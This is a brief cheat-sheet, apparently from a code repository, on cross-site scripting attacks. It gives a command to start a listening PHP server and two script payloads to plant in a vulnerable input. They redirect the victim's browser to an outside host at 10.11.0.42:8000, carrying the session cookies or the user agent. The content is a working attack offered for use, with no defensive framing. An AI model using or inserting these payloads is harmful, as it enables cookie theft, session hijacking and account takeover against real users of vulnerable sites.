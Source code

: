 ## XSS attacks

### run below command first
```
php -S <lcoal_ip>:8000
```

### place below code in vulnerable input
```
<script>window.location='http://10.11.0.42:8000/?cookie='+document.cookie</script>
<script>window.location='http://10.11.0.42:8000/?cookie='+navigator.userAgent</script>
```
